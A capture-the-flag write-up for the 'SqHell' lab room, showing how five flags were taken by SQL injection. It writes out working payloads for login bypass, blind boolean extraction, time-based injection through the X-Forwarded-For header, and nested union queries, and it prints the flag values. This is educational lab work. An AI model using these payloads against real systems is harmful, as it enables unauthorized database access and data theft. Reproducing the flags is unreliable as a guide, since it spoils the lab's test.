**SqHell**

**First flag:**

After enumerating the box, I found website running on port 80
 
I checked the login page and by the post, I found admin user
I tried to bypass admin login using sqli.
Payload I used is : admin’ or 1=1;--



After using this, I was able to access the first flag
First flag: THM{FLAG1:E786483E5A53075750F1FA792E823BD2}

**Third flag:**

After opening register page, I checked registering as user. But it shows registrations are not open.
So I inspected the source code and found an endpoint. Which is user-check
 


I accessed this endpoint and checked for user admin


 
It returned false… now I checked for user which doesn’t exist and it returns true.
Now, I tried using payload admin’ OR 1=1-- -
This returns false, which means it’s vulnerable for sqli
I made a script to automate this process

[Flag 3 script](flag3.py)

The payload is ' AND (SUBSTR((SELECT flag FROM flag LIMIT 0,1),1,1)) = 'T'-- -
Which returns false if the character is part of the flag.

 

After executing the script, the flag I got was: THM{FLAG3:97AEB3B28A4864416718F3A5FAF8F308}

**Second flag:**

After checking the terms and conditions page “We log your IP address for analytics purposes”
The common way is by using header X-Forwarded-For:
Stop the request in burp and send it to repeater tab. Add the header and use 127.0.0.1
Now, this header has a time based sql injection.
The payload is 
127.0.0.1' AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '1'='1


 
This payload is taken from https://ismailtasdelen.medium.com/sql-injection-payload-list-b97656cfd66b#:~:text=AND%20(SELECT%20*%20FROM%20(SELECT(SLEEP(5)))YjoC)%20AND%20%27%25%27%3D%27

Now, it’s confirmed that time based sql is there. So, to retrieve the flag, we can use payload
1' AND (SELECT sleep(5) FROM flag where SUBSTR(flag,1,1) = 'T') and '1'='1

After testing with some characters, I automated it using a python script

[Flag 2 script](flag2.py)



 
The flag is: THM{FLAG2:C678ABFE1C01FCA19E03901CEDAB1D15}

**Fourth flag:**

After enumerating user id parameter, I found 3 nulls are required in union statement, which means there are three columns.


 
Now, let’s change the user id to something invalid like 2 and select 1
It shows admin still… which means, a sql query inside a sql query.
Now, after injecting nulls inside the query, I found that there are 4 columns.


 
Now, we can retrieve flag using following payload.
8 union select "1 union select flag, flag, flag, null from flag", null, null from information_schema.tables where table_schema=database()-- -

I injected flag parameter thrice because we don’t know which one is vulnerable
I got the result.  



The flag is : THM{FLAG4:BDF317B14EEF80A3F90729BF2B426BEF}

**Fifth flag:**

Go to post id and add a union statement with four nulls. It has four columns.


 
Now, if I select flag from flag table, it’s not gonna work
For that, we have to do a Boolean based payload
1 and 1=2 union select null, null, null, null-- -
Now to retrieve the flag, the payload is
1 and 1=2 union select null, flag, flag, null from flag-- -



The flag is: THM{FLAG5:B9C690D3B914F7038BA1FC65B3FDF3C8}
